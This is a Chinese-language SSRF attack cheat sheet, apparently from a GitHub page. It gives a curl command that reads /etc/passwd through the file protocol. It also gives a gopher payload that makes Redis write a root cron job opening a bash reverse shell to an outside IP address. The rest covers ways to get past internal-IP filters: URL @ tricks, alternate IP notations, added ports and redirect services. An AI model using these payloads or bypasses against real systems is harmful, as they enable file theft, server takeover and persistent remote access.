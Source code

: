 #### file protocol - 任意文件读取
curl -vvv 'http://sec.com:8082/ssrf2.php?url=http://sec.com:8082/302.php?s=file&query=/etc/passwd'

#### gopher protocol - 一键反弹Bash
注意: gopher跳转的时候转义和`url`入参的方式有些区别

curl -vvv 'http://sec.com:8082/ssrf_only_http_s.php?url=http://sec.com:8082/302.php?s=gopher&i=127.0.0.1&p=6389&query=_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0  
a%0a%0a*/1%20*%20*%20*%20*%20bash%20-i%20>&%20/dev/tcp/103.21.140.84/6789%200>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d  
%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3
%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a'

### 绕过
#### 利用解析URL所出现的问题
正则表达式进行过滤（http之后到com为止的字符内容）
http://www.baidu.com@10.10.10.10与http://10.10.10.10 请求是相同的
此脚本访问请求得到的内容都是10.10.10.10的内容。
该绕过同样在URL跳转绕过中适用。
http://www.wooyun.org/bugs/wooyun-2015-091690

#### 更改IP地址写法
对传过来的URL参数进行正则匹配的方式来过滤掉内网IP，如采用如下正则表达式：

```
^10(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){3}$
^172\.([1][6-9]|[2]\d|3[01])(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$
^192\.168(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$
```

1.利用句号
127。0。0。1 >>> 127.0.0.1

2.ip地址转换成进制来访问
例如192.168.0.1这个IP地址我们可以改写成：
(1)、8进制格式：0300.0250.0.1
(2)、16进制格式：0xC0.0xA8.0.1
(3)、10进制整数格式：3232235521
(4)、16进制整数格式：0xC0A80001

3.添加端口可能绕过匹配正则
10.10.10.10:80
案例：
http://www.wooyun.org/bugs/wooyun-2014-061850


#### 用短地址（302跳转）绕过
案例：
http://www.wooyun.org/bugs/wooyun-2010-0132243
http://www.wooyun.org/bugs/wooyun-2010-0135257

(1)、在网络上存在一个很神奇的服务，http://xip.io 当我们访问这个网站的子域名的时候，例如192.168.0.1.xip.io，就会自动重定向到192.168.0.1。
